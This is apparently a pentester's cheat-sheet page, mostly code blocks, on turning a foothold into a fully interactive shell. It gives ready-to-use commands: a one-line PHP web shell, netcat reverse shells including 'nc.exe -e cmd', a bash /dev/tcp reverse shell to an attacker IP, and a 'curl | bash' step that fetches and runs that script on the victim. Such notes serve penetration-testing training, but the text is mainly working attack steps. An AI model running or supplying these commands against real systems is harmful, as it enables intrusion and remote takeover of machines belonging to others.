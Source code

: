 ```yaml
---
description: Dummy shell to fully-interactive shell upgrade
---
```


# 😎 Fully-Interactive Shell Upgrade

## You just popped a shell...

BE SURE TO START YOUR NC LISTENER IN BASH INSTEAD OF FISH OR ZSH

Python:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

If Python3 is available:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Example syntax:

```
/var/www/admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* The shell will look exactly the same or it may appear slightly differently

However, to gain full functionality do the following:

<mark style="color:yellow;">Press CTRL+Z</mark>

```
 stty raw -echo; fg
```

* <mark style="color:yellow;">Press enter a few times after this</mark>
* <mark style="color:yellow;">export TERM=xterm-256color</mark>
* Now, you will have a fully-interactive shell
* This includes tab/auto-complete
* CTRL+C
* And more

## PHP Web Shell

1. Create web shell

```
echo '<?php system($_GET["x"]);?>' > php-cmd.php
```

&#x20; 2\. Transfer to target (i.e. FTP)

&#x20; 3\. Use Netcat to connect back to your attack machine

&#x20; 4\. Transfer the nc.exe binary if it is a Windows target

&#x20; 5\. Start Netcat listener on the attack machine

```
nc -lnvp 1337
```

&#x20; 6\. Trigger reverse shell

```
nc -v <kali_ip_here> 1337

nc.exe -v <kali_ip_here> 1337 -e cmd
```

### Web Shell -> Reverse Shell Upgrade

* I personally do not like operating in web shells because of their clunky nature
* Let's fix that
* Situation: You ALREADY have a web shell on the victim

Create file:

rev\_shell:

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.90/1337 0>&1
```

Start Netcat listener on Kali:

```
nc -lnvp 1337
```

Begin HTTP Server on Kali:

```
python3 -m http.server 80
```

Transfer file to the victim (I found out that you need to use curl when piping to bash):

```
curl 192.168.49.90/rev_shell | bash
```

Go back to your Netcat listener:

<figure><img src=".gitbook/assets/image (1) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>
